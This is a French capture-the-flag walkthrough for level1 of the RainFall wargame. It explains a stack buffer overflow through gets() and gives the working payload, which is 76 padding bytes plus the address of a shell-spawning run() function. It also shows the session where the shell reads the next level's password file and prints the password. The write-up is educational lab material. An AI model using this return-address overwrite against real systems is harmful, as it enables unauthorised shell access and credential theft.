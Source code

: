 Etape 1 : Un binaire *level1* est présent dans le dossier, par habitude on l'éxécute et celui-ci ouvre une entrée sur la sortie standard. En écrivant n'importe quoi rien ne se produit.

Etape 2 : Après décompilation avec l'outil Ghidra on aperçoit la fonction *gets* cette fonction n'est pas sécurisé et est sujet au buffer overflow.

Un buffer overflow consiste a écrire plus de données dans une variable qu'elle ne peut en contenir, provoquant un comportement indéfini du programme.

Etape 3 : Hormis la fonction gets, le main ne contient rien d'exploitable, en fouillant les fonctions du binaire on trouve une fonction *run()* qui éxécute un */bin/sh*.

L'objectif sera donc de faire en sorte que le binaire récupére via gets une chaine de caractère correspondant a la taille attendu auquel on ajoutera l'adresse de la fonction run qui écrasera le return de la fonction gets et sera ainsi éxécuté a la place.

Ceci est possible car certaines options de sécurité ne sont pas activés, notamment des check pour vérifier les modifications des adresses de return ou encore la randomisation de la mémoire.

Etape 4 : Script pour préparer le buffer avec l'adresse
```bash
python -c 'print "a" * 76 + "\x44\x84\x04\x08"' > /tmp/buffer1
```

Il reste a solutionner un problème, on souhaite garder le shell ouvert a son éxécution car */bin/sh* se ferme directement après éxécution.
Pour ce faire on peut utiliser la commande cat tout en redirigeant la sortie :

Etape 5 : 
```bash
level1@RainFall:~$ cat /tmp/buffer1 - | ./level1 
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

